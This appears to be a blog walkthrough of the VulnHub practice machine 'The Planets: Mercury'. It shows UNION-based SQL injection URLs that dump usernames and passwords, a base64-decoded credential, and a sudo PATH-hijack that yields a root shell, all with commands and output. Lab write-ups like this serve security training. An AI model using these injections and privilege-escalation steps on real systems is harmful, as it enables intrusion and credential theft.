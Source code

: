 ```yaml
---
layout: post
title:  "VulnHub - The Planets : Mercury"
categories: [vulnhub,walkthrough]
pin: false
tags: [sqli,path injection,sudo,base64]
image: /images/planet.jpg
---
```

- You’ll find this vm in Vulnhub `https://www.vulnhub.com/entry/the-planets-mercury,544/`

- Difficulty : Medium

## SQL injection
## Step 1
{% highlight sh %}
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT username from users--/
('john',), ('laura',), ('sam',), ('webmaster',))
{% endhighlight %}


## Step 2
{% highlight sh %}
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT password from users--/
 ('johnny1987',), ('lovemykids111',), ('lovemybeer111',), ('mercuryisthesizeof0.056Earths',))
{% endhighlight %}

## SSH webmaster, find encoded passwords
{% highlight sh %}
  cd mecury_proj/
  ls
  cat notes.txt
{% endhighlight %}

## Base64 decode the password
{% highlight sh %}
┌─[alienum@parrot]─[~/Desktop]
└──╼ $echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
mercurymeandiameteris4880km
{% endhighlight %}

## SSH linuxmaster

- linuxmaster:mercurymeandiameteris4880km

{% highlight sh %}
linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster:
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh

linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog
linuxmaster@mercury:~$ echo "/bin/bash" > tail
linuxmaster@mercury:~$ chmod 777 tail
linuxmaster@mercury:~$ export PATH=.:$PATH
linuxmaster@mercury:~$ sudo PATH=$PATH /usr/bin/check_syslog.sh
root@mercury:/home/linuxmaster#
{% endhighlight %}

